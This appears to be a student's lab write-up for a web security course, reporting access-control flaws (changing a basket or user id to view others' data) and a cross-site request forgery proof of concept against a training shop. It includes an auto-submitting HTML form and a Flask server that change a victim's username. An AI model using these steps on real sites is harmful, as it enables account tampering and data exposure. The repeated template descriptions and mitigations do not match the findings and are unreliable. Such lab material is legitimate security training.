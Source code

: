# Web Application Security

## Week 01  

### Authorization Bypass:

#### Wasdat - View Basket

**Title:** Anonymous user can modify site settings  

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

#### Main Target - Wasdat.fi

**Title:** Anonymous user can modify site settings  

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`
![image](../images/was1.PNG)


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

#### Main Target - Wasdat.fi

**Title:** Cross Site Forgery - Change victim username 

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

